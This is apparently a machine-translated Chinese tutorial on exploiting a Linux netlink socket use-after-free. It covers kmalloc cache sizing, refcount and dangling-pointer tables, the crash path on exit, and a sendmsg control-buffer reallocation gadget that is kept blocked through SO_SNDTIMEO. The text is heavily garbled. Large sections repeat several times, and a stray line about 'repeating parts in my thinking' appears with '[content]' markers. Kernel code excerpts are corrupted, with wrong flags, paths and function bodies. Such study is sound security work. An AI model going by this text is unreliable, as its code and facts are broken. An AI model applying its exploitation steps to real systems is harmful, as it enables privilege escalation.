#define SOCK_EXTENDED_SIZE ALIGN(sizeof(struct sock_extended), sizeof(long))
static inline unsigned int sk_alloc_size(unsigned int prot_size) {
    return prot_size + sizeof(long) + SOCK_EXTENDED_SIZE;
}
```

**注意：** 创建 *struct_extended* 是为了在不破坏内核 API 的情况下扩展原始的 *struct sock*。理解这一点并不要求，我们只需要记住它的大小被加到了之前的分配中。

即：**sizeof(struct netlink_sock) + sizeof(struct sock_extended) + SOME_ALIGN_BYTES。**

重要的是，我们并不确切知道大小。由于我们是在通用的 kmem_cache 中分配，我们需要找到一个可以存储我们对象的“上限”缓存（参见 Concept #3）。

**警告-1：** 在“Concept #3”中提到，通用的 kmcaches 大小是 2 的幂。这并不总是真的。某些系统具有其他大小，如“kmalloc-96”和“kmalloc-192”。其原理是这些大小比 2 的幂更接近。具有这样的大小可以减少**内部碎片**。

**警告-2：** 使用“debug”方法可以是获取目标对象粗略大小的良好起点。然而，在带有 CONFIG 预处理器的内核上，这些大小将是错误的。如果计算出的对象接近 *kmem_cache* 对象的大小边界，你也应该特别注意。例如，一个 260 字节的对象将位于 kmalloc-512 中，但会被减少到 220 字节（因此变为 kmalloc-256，那将很痛苦）。

通过方法 (#5)，**我们发现目标大小是 `kmalloc-1024`。** 这是一个很好的 `use-after-free` 利用点，我们在原因（静态）中发现了：

#### 方法 #1 [静态]:手动计算

该思想是“手动”计算每个字段的大小（当 int 是 4 字节，long 是 8 字节时等）。这种方法适用于“小型”结构，但在解析过程中**非常容易出错**。必须注意**对齐**（alignment）、**填充**（padding）和压缩（Packing）。例如：

```c
struct __wait_queue {
    unsigned int flags;      // offset/0, total_size=4
                            // offset/4 <---- 对齐到8 字节的填充
};
struct {
    void *ptr;               // offset/8, total_size=16
    wait_queue_func_t func;    // offset/16, total_size=24
    struct list_head task_list; // offset/24, total_size=40 (sizeof(list_head)==16)
}
```

当我们看上面的结构时，它看起来像 **struct task** 等。这就是为什么我们的宏 CONFIG 非常复杂并处理“联合体”（union）。

#### 方法 #2 [静态]:使用 'pahole'（仅限调试）

**pahole** 被用于避免这种繁琐的手动任务。例如，获取以下内容：

```bash
$ pahole -C struct vmlinuz_dwarf
struct {
    int state;                /* 0      4 */
    short int;                /* 4      2 */

    unsigned flags;          /* 8      8 */
    long unsigned int;       /* 16     8 */
    struct sock_wq *wq;      /* 24     8 */
    struct file *file;        /* 32     8 */
    struct sk *sk;           /* 40     8 */
    const struct proto_ops *ops; /* 48     8 */
};
```
（注：原始文本在 pahole 输出中存在一些伪迹）。

**注意：** *struct_extended* 的创建是为了在不破坏内核 API 的情况下扩展原始的 *struct sock*。理解这一点并不要求，我们只需要记住它的大小被加到了之前的分配中。

即：**sizeof(struct netlink_sock) + sizeof(struct sock_extended) + SOME_ALIGN_BYTES。**

重要的是，我们并不确切知道大小。由于我们是在通用的 kmem_cache 中分配，我们需要找到一个可以存储我们对象的“上限”缓存（参见 Concept #3）。

**警告-1：** 在“Concept #3”中，提到通用的 kmcaches 大小是 2 的幂。这并不总是真的。某些系统具有其他大小，如“kmalloc-96”和“kmalloc-192”。其原理是这些大小比 2 的幂更接近。具有这样的大小可以减少**内部碎片**。

**警告-2：** 使用“debug”方法可以是获取目标对象粗略大小的良好起点。然而，在带有 CONFIG 预处理器的内核上，这些大小将是错误的。如果计算出的对象接近 *kmem_cache* 对象的大小边界，你也应该特别注意。例如，一个 260 字节的对象将位于 kmalloc-512 中，但会被减少到 220 字节（因此变为 kmalloc-256，那将很痛苦）。

通过方法 (#5)，**我们发现目标大小是 `kmalloc-1024`。** 这是一个很好的 `use-after-free` 利用点，我们在原因（静态）中发现了：

#### 方法 #1 [静态]:手动计算

该思想是“手动”计算每个字段的大小（当 int 是 4 字节，long 是 8 字节时）。这种方法适用于“小型”结构，但在解析过程中**非常容易出错**。必须注意**对齐**、**填充**和压缩。例如：

```c
struct __wait_queue {
    unsigned int flags;      // offset/0, total_size=4
                            // offset/4 <---- 对齐到8 字节的填充
};
struct {
    void *ptr;               // offset/8, total_size=16
    wait_queue_func_t func;    // offset/16, total_size=24
    struct list_head task_list; // offset/24, total_size=40 (sizeof(list_head)==16)
}
```

当我们看上面的结构时，它看起来像 **struct task** 等。这就是为什么我们的宏 CONFIG 非常复杂并处理“联合体”。

#### 方法 #2 [静态]:使用 'pahole'（仅限调试）

**pahole** 被用于避免这种繁琐的手动任务。例如，获取以下内容：

```bash
$ pahole -C struct vmlinuz_dwarf
struct {
    int state;                /* 0      4 */
    short int;                /* 4      2 */

    unsigned flags;          /* 8      8 */
    long unsigned int;       /* 16     8 */
    struct sock_wq *wq;      /* 24     8 */
    struct file *file;        /* 32     8 */
    struct sk *sk;           /* 40     8 */
    const struct proto_ops *ops; /* 48     8 */
};
```


也就是说，我们处于当前状况：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---||
| 3 | 2 | file_ptr | file_ptr | file_ptr | socket_ptr | socket_ptr |

**socket_ptr** (struct socket) 和 **sock_ptr** (struct netlink_sock) 区别。

让我们假设：

- fd3 是 "sock_fd"
- fd4 是 "unblock_fd"
- fd5 是 "sock_fd2"

与我们的 netlink socket 关联的 `struct file` 计数为**三个**，因为有 1 次 socket() 和 2 次 dup()。反之，sock 计数为**两个**，因为有 1 次 socket() 和 1 次 bind()。

现在，考虑漏洞发生。如我们所知，sock 的计数器将减一，文件的计数器减少，`fdt[5]` 条目变为 NULL。注意调用 **close(5)** 并没有减少 socket 计数，因为我们触发了漏洞！

状况变为：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---|
| 2 | 1 | file_ptr | file_ptr | NULL | socket_ptr | socket_ptr |

让我们第二次触发漏洞：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---|
| 1 | FREE | NULL | file_ptr | NULL | socket_ptr | (DANGLING) sock_ptr |

再次，close(3) 并没有引用 socket，是漏洞导致了这一点！因为接收计数归零，socket 被释放了。
正如我们所见，在刚刚释放的 socket 对象上存在悬空指针。这就是上述的 **UAF transfer**。与第一个场景（参见部分 1）不同，那时 "socket" 是 `mq_notify()` 中的悬空指针，现在它是 `struct file` 的 "sk_ptr"。换句话说，我们通过 `unblock_fd` 文件描述符通过 `struct file` “访问”了 socket 的悬空指针。

- 1. 调用 sock 的析构函数（即 .netlink_sock_destruct()）
- 2. 调用 sk_ptr_free()

## 它们都没有更新“SOCKET”

如果你在按下按键之前（在利用中）查看 **dmmsg**，你会发现一条类似的消息：

```
141.771253 Freeing alive netlink socket ffff80001ab88000
```

它来自 sock 的析构函数 **netlink_sock_destruct()**（由 __sk_free 调用）：

```c
static void netlink_sock_destruct(struct sock *sk)
{
    struct netlink_sk *nlk = nlk_sk(sk);
    // cut ...
    if (!sk->flag & SOCK_DEADO) {
        printk(KERN_ERR, "Freezing alive netlink socket %s\n", sk); // <<-----
        return;
    }
    // cut ...
}
```

好了，我们通过 netlink_bind() 识别了目标 socket，我们看到引用计数增加了一。在绑定时，我们通过 netlink_getsockbypid() 引用了它。不详述，netlink_sock 指针存储在 nl_table 哈希表中（这在部分 4 中介绍）。在销毁 sock 对象之前，这些指针变成了悬空指针。

识别每个指针是非常重要的，原因有两个：

- 我们可以使用它们来触发释放后使用（use-after-free），从而获得 UAF 原语
- 我们在内核修复期间需要修复它们

让我们继续并理解为什么内核在此期间会崩溃。

## 理解崩溃

在上一节中，我们识别了三个悬空指针：

- struct socket 中的 sk 指针
- nl_table 哈希表列表中的两个 netlink_sock 指针

是时候理解为什么 PoC 崩溃了。

当我们在概念性代码中按下按键时会发生什么？利用程序直接退出，但这意味着很多问题。内核需要释放分配给进程的所有资源，否则会导致大量的内存泄漏。

退出过程本身是简单的，但位于 do_exit() 中的逻辑有点复杂。在某个时刻，它想要释放文件资源。它大致操作如下：

- 函数 do_exit() 在 (kernel/exit) 被调用
- 它调用 exit_files()，通过 put_files_struct(n) 释放当前进程 struct_files_struct 的引用
- 正是因为最后一个引用，put_files_struct() 调用了 close_files()
- close_files() 遍历 FD 并对每个剩余文件调用 flip_close()
- flip_close() 对要被 "unblock_fd" 释放的路径调用 put()
- 正是因为最后一个引用，...put() 被调用
- 最后，...put() 调用 sock-ops->release()，即 sock_close(sk)
- sock_close() 调用 sock->release() (proto_ops: netlink_release(netlink)) 并设置 sock->release()

状况变为：

```c
static void netlink_release(struct sock *sk)
{
    struct netlink_sk *nlk = nlk_sk(sk);
    // cut ...
    if (!sk->flag & SOCK_DEADO) {
        printk(KERN_ERR, "Freezing alive netlink socket %s\n", sk); // <<-----
        return;
    }
    // cut ...
}
```

好了，我们通过 netlink_bind() 识别了目标 socket，我们看到引用计数增加了。在绑定时，我们通过 netlink_getsockbypid() 引用了它。不详述，netlink_sock 指针存储在 nl_table 哈希表中（这在部分 4 中介绍）。在销毁 sock 对象之前，这些指针变成了悬空指针。

识别每个指针是非常重要的，原因有两个：

- 我们可以使用它们来触发释放后使用，从而获得 UAF 原语
- 我们在内核修复期间需要修复它们

让我们继续并理解内核在此期间会崩溃。

## 理解崩溃

在上一节中，我们识别了三个悬空指针：

- struct socket 中的 sk 指针
- nl_table 哈希列表中的两个 netlink_sock 指针

是时候理解为什么 PoC 崩溃了。

当我们在概念性代码中按下按键时会发生什么？利用程序直接退出，但这意味着很多问题。内核需要释放分配给进程的所有资源，否则会导致大量的内存泄漏。

退出过程本身是简单的，但位于 do_exit() 中的逻辑有点复杂。在某个时刻，它想要释放文件资源。它大致操作如下：

- 函数 do_exit() 在 (kernel/exit) 被调用
- 它调用 exit_files()，通过 put_files_struct(n) 释放当前进程 struct_files_struct 的引用
- 正是因为最后一个引用，put_files_struct() 调用了 close_files()
- close_files() 遍历 FD 并对每个剩余文件调用 flip_close()
- flip_close() 对要被 "unblock_fd" 释放的路径调用 put()
- 正是因为最后一个引用，...put() 被调用
- 最后，...put() 调用 sock-ops->release()，即 sock_close(sk)
- sock_close() 调用 sock->release() (proto_ops: netlink_release(netlink)) 并设置 sock->release()

等待，我看到我在思考过程中重复了一些部分。让我根据提供的文本提供一个干净的合并最终版本。

[content]
也就是说，我们处于当前状况：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---||
| 3 | 2 | file_ptr | file_ptr | file_ptr | socket_ptr | socket_ptr |

**socket_ptr** (struct socket) 和 **sock_ptr** (struct netlink_sock) 区别。

让我们假设：

- fd3 是 "sock_fd"
- fd4 是 "unblock_fd"
- fd5 是 "sock_fd2"

与我们的 netlink socket 关联的 `struct file` 计数为**三个**，因为有 1 次 socket() 和 2 次 dup()。反之，sock 计数为**两个**，因为有 1 次 socket() 和 1 次 bind()。

现在，考虑漏洞发生。如我们所知，sock 的计数器将减一，文件的计数减少，`fdt[5]` 条目变为 NULL。注意调用 **close(5)** 并没有减少 socket 计数，因为我们触发了漏洞！

状况变为：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---|
| 2 | 1 | file_ptr | file_ptr | NULL | socket_ptr | socket_ptr |

让我们第二次触发漏洞：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---|
| 1 | FREE | NULL | file_ptr | NULL | socket_ptr | (DANGLING) sock_ptr |

再次，close(3) 并没有引用 socket，是漏洞导致了这一点！因为接收计数归零，socket 被释放了。
正如我们所见，在刚刚释放的 socket 对象上存在悬空指针。这就是上述的 **UAF transfer**。与第一个场景（参见部分 1）不同，那时 "socket" 是 `mq_notify()` 中的悬空指针，现在它是 `struct file` 的 "sk_ptr"。换句话说，我们通过 `unblock_fd` 文件描述符通过 `struct file` “访问”了 socket 的悬空指针。

- 1. 调用 sock 的析构函数（即 .netlink_sock_destruct()）
- 2. 调用 sk_ptr_free()

## 它们都没有更新“SOCKET”

如果你在按下按键之前（在利用中）查看 **dmmsg**，你会发现一条类似的消息：

```
141.771253 Freeing alive netlink socket ffff80001ab88000
```

它来自 sock 的析构函数 **netlink_sock_destruct()**（由 __sk_free 调用）：

```c
static void netlink_sock_destruct(struct sock *sk)
{
    struct netlink_sk *nlk = nlk_sk(sk);
    // cut ...
    if (!sk->flag & SOCK_DEADO) {
        printk(KERN_ERR, "Freezing alive netlink socket %s\n", sk); // <<-----
        return;
    }
    // cut ...
}
```

好了，我们通过 netlink_bind() 识别了目标 socket，我们看到引用计数增加了。在绑定时，我们通过 netlink_getsockbypid() 引用了它。不详述，netlink_sock 指针存储在 nl_table 哈希表中（这在部分 4 中介绍）。在销毁 sock 对象之前，这些指针变成了悬空指针。

识别每个指针是非常重要的，原因有两个：

- 我们可以使用它们来触发释放后使用，从而获得 UAF 原语
- 我们在内核修复期间需要修复它们

让我们继续并理解内核在此期间会崩溃。

## 理解崩溃

在上一节中，我们识别了三个悬空指针：

- struct socket 中的 sk 指针
- nl_table 哈希表列表中的两个 netlink_sock 指针

是时候理解为什么 PoC 崩溃了。

当我们在概念性代码中按下按键时会发生什么？利用程序直接退出，但这意味着很多问题。内核需要释放分配给进程的所有资源，否则会导致大量的内存泄漏。

退出过程本身是简单的，但位于 do_exit() 中的逻辑有点复杂。在某个时刻，它想要释放文件资源。它大致操作如下：

- 函数 do_exit() 在 (kernel/exit) 被调用
- 它调用 exit_files()，通过 put_files_struct(n) 释放当前进程 struct_files_struct 的引用
- 正是因为最后一个引用，put_files_struct() 调用了 close_files()
- close_files() 遍历 FD 并对每个剩余文件调用 flip_close()
- flip_close() 对要被 "unblock_fd" 释放的路径调用 put()
- 正是因为最后一个引用，...put() 被调用
- 最后，...put() 调用 sock-ops->release()，即 sock_close(sk)
- sock_close() 调用 sock->release() (proto_ops: netlink_release(netlink)) 并设置 sock->release()

状况变为：

```c
static void netlink_release(struct sock *sk)
{
    struct netlink_sk *nlk = nlk_sk(sk);
    // cut ...
    if (!sk->flag & SOCK_DEADO) {
        printk(KERN_ERR, "Freezing alive netlink socket %s\n", sk); // <<-----
        return;
    }
    // cut ...
}
```

好了，我们通过 netlink_bind() 识别了目标 socket，我们看到引用计数增加了。在绑定时，我们通过 netlink_getsockbypid() 引用了它。不详述，netlink_sock 指针存储在 nl_table 哈希表中（这在部分 4 中介绍）。在销毁 sock 对象之前，这些指针变成了悬空指针。

识别每个指针是非常重要的，原因有两个：

- 我们可以使用它们来触发释放后使用，从而获得 UAF 原语
- 我们在内核修复期间需要修复它们

让我们继续并理解内核在此期间会崩溃。

## 理解崩溃

在上一节中，我们识别了三个悬空指针：

- struct socket 中的 sk 指针
- nl_table 哈希列表中的两个 netlink_sock 指针

是时候理解为什么 PoC 崩溃了。

当我们在概念性代码中按下按键时会发生什么？利用程序直接退出，但这意味着很多问题。内核需要释放分配给进程的所有资源，否则会导致大量的内存泄漏。

退出过程本身是简单的，但位于 do_exit() 中的逻辑有点复杂。在某个时刻，它想要释放文件资源。它大致操作如下：

- 函数 do_exit() 在 (kernel/exit) 被调用
- 它调用 exit_files()，通过 put_files_struct(n) 释放当前进程 struct_files_struct 的引用
- 正是因为最后一个引用，put_files_struct() 调用了 close_files()
- close_files() 遍历 FD 并对每个剩余文件调用 flip_close()
- flip_close() 对要被 "unblock_fd" 释放的路径调用 put()
- 正是因为最后一个引用，...put() 被调用
- 最后，...put() 调用 sock-ops->release()，即 sock_close(sk)
- sock_close() 调用 sock->release() (proto_ops: netlink_release(netlink)) 并设置 sock->release()

等待，我看到我在思考过程中重复了一些部分。让我根据提供的文本提供一个干净的合并最终版本。

[content]
也就是说，我们处于当前状况：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---||
| 3 | 2 | file_ptr | file_ptr | file_ptr | socket_ptr | socket_ptr |

**socket_ptr** (struct socket) 和 **sock_ptr** (struct netlink_sock) 区别。

让我们假设：

- fd3 是 "sock_fd"
- fd4 是 "unblock_fd"
- fd5 是 "sock_fd2"

与我们的 netlink socket 关联的 `struct file` 计数为**三个**，因为有 1 次 socket() 和 2 次 dup()。反之，sock 计数为**两个**，因为有 1 次 socket() 和 1 次 bind()。

现在，考虑漏洞发生。如我们所知，sock 的计数器将减一，文件的计数减少，`fdt[5]` 条目变为 NULL。注意调用 **close(5)** 并没有减少 socket 计数，因为我们触发了漏洞！

状况变为：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---|
| 2 | 1 | file_ptr | file_ptr | NULL | socket_ptr | socket_ptr |

让我们第二次触发漏洞：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---|
| 1 | FREE | NULL | file_ptr | NULL | socket_ptr | (DANGLING) sock_ptr |

再次，close(3) 并没有引用 socket，是漏洞导致了这一点！因为接收计数归零，socket 被释放了。
正如我们所见，在刚刚释放的 socket 对象上存在悬空指针。这就是上述的 **UAF transfer**。与第一个场景（参见部分 1）不同，那时 "socket" 是 `mq_notify()` 中的悬空指针，现在它是 `struct file` 的 "sk_ptr"。换句话说，我们通过 `unblock_fd` 文件描述符通过 `struct file` “访问”了 socket 的悬空指针。

- 1. 调用 sock 的析构函数（即 .netlink_sock_destruct()）
- 2. 调用 sk_ptr_free()

## 它们都没有更新“SOCKET”

如果你在按下按键之前（在利用中）查看 **dmmsg**，你会发现一条类似的消息：

```
141.771253 Freeing alive netlink socket ffff80001ab88000
```

它来自 sock 的析构函数 **netlink_sock_destruct()**（由 __sk_free 调用）：

```c
static void netlink_sock_destruct(struct sock *sk)
{
    struct netlink_sk *nlk = nlk_sk(sk);
    // cut ...
    if (!sk->flag & SOCK_DEADO) {
        printk(KERN_ERR, "Freezing alive netlink socket %s\n", sk); // <<-----
        return;
    }
    // cut ...
}
```

好了，我们通过 netlink_bind() 识别了目标 socket，我们看到引用计数增加了。在绑定时，我们通过 netlink_getsockbypid() 引用了它。不详述，netlink_sock 指针存储在 nl_table 哈希表中（这在部分 4 中介绍）。在销毁 sock 对象之前，这些指针变成了悬空指针。

识别每个指针是非常重要的，原因有两个：

- 我们可以使用它们来触发释放后使用，从而获得 UAF 原语
- 我们在内核修复期间需要修复它们

让我们继续并理解内核在此期间会崩溃。

## 理解崩溃

在上一节中，我们识别了三个悬空指针：

- struct socket 中的 sk 指针
- nl_table 哈希表列表中的两个 netlink_sock 指针

是时候理解为什么 PoC 崩溃了。

当我们在概念性代码中按下按键时会发生什么？利用程序直接退出，但这意味着很多问题。内核需要释放分配给进程的所有资源，否则会导致大量的内存泄漏。

退出过程本身是简单的，但位于 do_exit() 中的逻辑有点复杂。在某个时刻，它想要释放文件资源。它大致操作如下：

- 函数 do_exit() 在 (kernel/exit) 被调用
- 它调用 exit_files()，通过 put_files_struct(n) 释放当前进程 struct_files_struct 的引用
- 正是因为最后一个引用，put_files_struct() 调用了 close_files()
- close_files() 遍历 FD 并对每个剩余文件调用 flip_close()
- flip_close() 对要被 "unblock_fd" 释放的路径调用 put()
- 正是因为最后一个引用，...put() 被调用
- 最后，...put() 调用 sock-ops->release()，即 sock_close(sk)
- sock_close() 调用 sock->release() (proto_ops: netlink_release(netlink)) 并设置 sock->release()

[/content]

等待，我看到我在思考过程中重复了一些部分。让我根据提供的文本提供一个干净的合并最终版本。

[content]
也就是说，我们处于当前状况：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---||
| 3 | 2 | file_ptr | file_ptr | file_ptr | socket_ptr | socket_ptr |

**socket_ptr** (struct socket) 和 **sock_ptr** (struct netlink_sock) 区别。

让我们假设：

- fd3 是 "sock_fd"
- fd4 是 "unblock_fd"
- fd5 是 "sock_fd2"

与我们的 netlink socket 关联的 `struct file` 计数为**三个**，因为有 1 次 socket() 和 2 次 dup()。反之，sock 计数为**两个**，因为有 1 次 socket() 和 1 次 bind()。

现在，考虑漏洞发生。如我们所知，sock 的计数器将减一，文件的计数减少，`fdt[5]` 条目变为 NULL。注意调用 **close(5)** 并没有减少 socket 计数，因为我们触发了漏洞！

状况变为：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---|
| 2 | 1 | file_ptr | file_ptr | NULL | socket_ptr | socket_ptr |

让我们第二次触发漏洞：

| file cnt | sock cnt | [fd3] | [fd4] | [fd5] | file_ptr->private_data | socket_ptr->sk |
|---|---|---|---|---|---|---|
| 1 | FREE | NULL | file_ptr | NULL | socket_ptr | (DANGLING) sock_ptr |

再次，close(3) 并没有引用 socket，是漏洞导致了这一点！因为接收计数归零，socket 被释放了。
正如我们所见，在刚刚释放的 socket 对象上存在悬空指针。这就是上述的 **UAF transfer**。与第一个场景（参见部分 1）不同，那时 "socket" 是 `mq_notify()` 中的悬空指针，现在它是 `struct file` 的 "sk_ptr"。换句话说，我们通过 `unblock_fd` 文件描述符通过 `struct file` “访问”了 socket 的悬空指针。

- 1. 调用 sock 的析构函数（即 .netlink_sock_destruct()）
- 2. 调用 sk_ptr_free()

## 它们都没有更新“SOCKET”

如果你在按下按键之前（在利用中）查看 **dmmsg**，你会发现一条类似的消息：

```
141.771253 Freeing alive netlink socket ffff80001ab88000
```

它来自 sock 的析构函数 **netlink_sock_destruct()**（由 __sk_free 调用）：

```c
static void netlink_sock_destruct(struct sock *sk)
{
    struct netlink_sk *nlk = nlk_sk(sk);
    // cut ...
    if (!sk->flag & SOCK_DEADO) {
        printk(KERN_ERR, "Freezing alive netlink socket %s\n", sk); // <<-----
        return;
    }
    // cut ...
}
```

好了，我们通过 netlink_bind() 识别了目标 socket，我们看到引用计数增加了。在绑定时，我们通过 netlink_getsockbypid() 引用了它。不详述，netlink_sock 指针存储在 nl_table 哈希表中（这在部分 4 中介绍）。在销毁 sock 对象之前，这些指针变成了悬空指针。

识别每个指针是非常重要的，原因有两个：

- 我们可以使用它们来触发释放后使用，从而获得 UAF 原语
- 我们在内核修复期间需要修复它们

让我们继续并理解内核在此期间会崩溃。

## 理解崩溃

在上一节中，我们识别了三个悬空指针：

- struct socket 中的 sk 指针
- nl_table 哈希表列表中的两个 netlink_sock 指针

是时候理解为什么 PoC 崩溃了。

当我们在概念性代码中按下按键时会发生什么？利用程序直接退出，但这意味着很多问题。内核需要释放分配给进程的所有资源，否则会导致大量的内存泄漏。

退出过程本身是简单的，但位于 do_exit() 中的逻辑有点复杂。在某个时刻，它想要释放文件资源。它大致操作如下：

- 函数 do_exit() 在 (kernel/exit) 被调用
- 它调用 exit_files()，通过 put_files_struct(n) 释放当前进程 struct_files_struct 的引用
- 正是因为最后一个引用，put_files_struct() 调用了 close_files()
- close_files() 遍历 FD 并对每个剩余文件调用 flip_close()
- flip_close() 对要被 "unblock_fd" 释放的路径调用 put()
- 正是因为最后一个引用，...put() 被调用
- 最后，...put() 调用 sock-ops->release()，即 sock_close(sk)
- sock_close() 调用 sock->release() (proto_ops: netlink_release(netlink)) 并设置 sock->release()


- 每个 slab 由单个页（4096 字节）组成，因此每个 slab 包含 4 个对象
- 假设缓存中有某些 sock 对象，我们目前有 2 个 slabs

在释放 `struct netlink_sock` 对象之前，我们处于以下这种情况：



注意，`ac->available` 是下一个对象的索引（加 1）。当 `netlink_sock` 对象释放时，最快的 `kfree(obj)` 等同于：

```
ac->entry[ac->available++] = objp;   // "ac->avail" 是后增的
```

这导致了以下情况：



最后，通过 `kmalloc(1024)` 分配了一个 `struct sock` 对象（使用快速路径）：

```
objp = ac->entry[--ac->avail];   // "ac->avail" 是预减的
```

导致了：



搞定！**新 struct sock 的内存位置与（旧的）struct netlink_sock 的内存位置相同**（例如 `0xffffff0aabbccd`）。因此，我们进行了一重试或“重新分配”。这看起来并不糟糕，对吧？
**好吧，这是理想情况。**

### 重新分配getget (Reallocation Gadget)
之前的涵盖了两个缓冲区：发送缓冲区和接收缓冲区。实际上有第三个：一个**选项缓冲区**（也称为“辅助数据缓冲区”）。在本节中，我们将看到如何用任意数据填充它并将其用作我们的重新分配getget。
该getget可以通过 `sendmsg()` 系统调用的“上层”部分访问。函数 `__sys_sendmsg()`（几乎）直接由 `SCALL_DEFINE3(sendmsg)` 调用。

```c
static int __sendmsmsg(struct msghdr *user_msg,
	struct msghdr *unsigned, unsigned flags)
{
	struct compat_msghdr *user_msg =
		struct __attribute__((aligned(sizeof(struct msghdr)))) {
			struct iov
		struct iovec[aligned(struct iovec)] *iov = iovstack;
			__attribute__((aligned(sizeof(struct msghdr)) + 20));
			unsigned int size = iov->ptr_to;
		unsigned char *ctl = ctl;
		int err, ctl_len, iov_size, total_len;
		 // cut (copy_msghdr/ioves & sanity checks)
		if (msg_sys->msg_control > INT_MAX)
			goto out_freeiov;
		if ((__MS_OS_COMPAT) & ctl_len) {
			// cut ...
		} else if (ctl_len) {
			if (ctl_len > sizeof(ctl)) {
				ctl_buf = kmalloc(sock->sk, ctl_len, GFP_KERNEL);
				if (ctl_buf == NULL)
				goto out_free;
			terr = -EFAULT;
			if (copy_from_user(ctl_buf, (void *)user_msg->msg_sys->msg_control,
			ctl_len))
				goto out_free;
				msg_sys->msg_control = ctl_buf;
		}
		} // cut ...
	}
		err = sock_sendmsg(sock, msg_sys, total_len);
		 // cut ...
	}
out_freectl:
		if (ctl_buf)
		sock_kfree_s(sock->sk, ctl_buf, ctl_len);
out_freeiov:
		if (iovstack)
		sock_kfree_s(sock->sk, iovstack, iov_size);
		return err;
out:
		return err;
}
```

它的执行逻辑如下：

- 在栈上声明了一个 36 字节（16 + 20）的 ctl 缓冲区
- 验证用户提供的 msg_control 小于或等于 INT_MAX
- 将用户提供的 msg_control 拷贝到大小为 ctl_len 的缓冲区
- 使用 kmalloc() 分配大小为 ctl_len 的内核缓冲区 ctl_buf
- 从用户提供的 msg_control 数据中拷贝 ctl_len 字节到在 [3] 处分配的内核缓冲区 ctl_buf
- 调用 sock_sendmsg()，它将回调回 sock->ops->sendmsg()
- 释放内核缓冲区 ctl_buf

*用户提供*的列表并不严格，不是吗？这正是我们喜欢它的原因！总结一下，我们可以通过 kmalloc() 分配一个内核缓冲区：

- msg->msg_control: 任意大小（必须大于 36 但小于 INT_MAX）
- msg->msg_control: 任意内容

现在，让我们看看 `sock_kmalloc()` 做了了什么：

```c
void *sock_kmalloc(struct sock *sk, int size, gfp_t priority)
if (size <= optmax)
    atomic_add(size, &sk->kmalloc);
else {
    void *mem;
    /* try to do add, avoid the race if kmalloc sleeps */
    mem = kmalloc(size);
    if (mem) {
        return mem;
    }
    atomic_sub(size, &sk->kmalloc);
}
return NULL;
```

第一个参数与内核 "optmax" 进行比较。可以通过以下获取：

```
$ cat /proc/sys/core/optmax
```

如果提供的 size 小于该值，则 size 会加到当前选项缓冲区且小于 "optmax"。记住，我们的内核 kmalloc 初始化为零。如果 "optmax" 小于或等于 1024，`kmalloc(size)` 的值将增加。如果成功，否则 `kmalloc` 减少 size。
好了，我们可以用任意大小（36, optmax）调用 `kmalloc()`，其内容将被填充为任意值。但有一个问题，当 `__sys_sendmsg()` 发生时，缓冲区会被填充。这意味着 `sock_sendmsg()` 调用必须阻塞。

### 阻塞 sendmsg()

在之前的文章中我们展示了如何让 `sendmsg()` 调用填充接收缓冲区。人们可能想对 `netlink_sendmsg()` 执行同样的操作。遗憾的是，我们不能重用它。原因是 `netlink_sendmsg()` 会调用 `netlink_getsock()`，导致悬空指针（use-after-free）。

也就是说，我们使用另一个套族：AF_UNIX。你可以使用任何套族而不是这个，因为它无处不在且不需要特定的权限。

**警告：** 我们不会描述 AF_UNIX 的实现（尤其是 `unix_dgram_msg()`），那太长了。它并不复杂（有很多 AF_NETLINK 的相似之处），我们只需要两件事：

- 在“选项”缓冲区中分配缓冲区
- 让 `unix_dgram_msg()` 调用阻塞

类似于 `netlink_sendmsg()`，`sendmsg()` 调用在以下情况下可以阻塞：

1. 目标缓冲区满了
2. 发送者的超时值设置为 MSG_TIMEOUT

在 `unix_dgram_msmsg()`（类似于 `netlink_sendmsg()`）中，该超时值的计算如下：

```c
static inline long sock_sndtime(const struct sock *sk, int msg_flags)
{
    return nonblock ? 0 : sk->sndtime;
}
```

也就是说，如果我们没有设置 `nonblock` 参数（即 MSG_DONTWAIT），超时值就是 `sk->sndtime`。幸运的是，这个值可以通过 `setsockopt()` 控制。

```c
int setsockopt(struct socket *opt, int level, int optname,
    char __user *optval, unsigned int optlen)
{
    struct sock *sk = opt->sk;

    // SO_SNDTIMEO
    case SO_SNDTIMEO:
        sock_set_timeout(sk->snd_timeout, optval, optlen);
        break;
    // ...
}
```

它调用了 `sock_set_timeout()`。

```c
static int sock_set_timeout(long _time_p, char __user *optval, int optlen)
{
    struct timeval tv;
    if (optlen < sizeof(tv))
        return -EINVAL;
    if (copy_from_user(tv, optval, sizeof(tv)))
        return -EFAULT;
    if (tv.tv_usec < 0) tv.tv_usec += USE_PER_SEC;
        return -EINVAL;
    if (tv.tv_sec < 0) {
        // ...
    }
    _time_p = MAX_SCHED_TIMEOUT;
    if (tv.tv_sec == 0 && tv.tv_usec == 0)
        return 0;
    // ...
}
```

最后，它设置了 SO_SNDTIMEO 选项，给出一个填充为零的 `struct timeval`。它将超时时间设置为 `MAX_SCHED_TIMEOUT`（即无限阻塞）。它不需要任何权限。

一个问题解决了！

第二个问题是**处理用户缓冲区数据代码**。它在 `unix_dgram_msmsg()` 中很早被调用：

```c
static int unix_dgram_msmsg(struct socket *sock, struct msghdr *msg, size_t len)
{
    struct sock *sk = sock->sk;
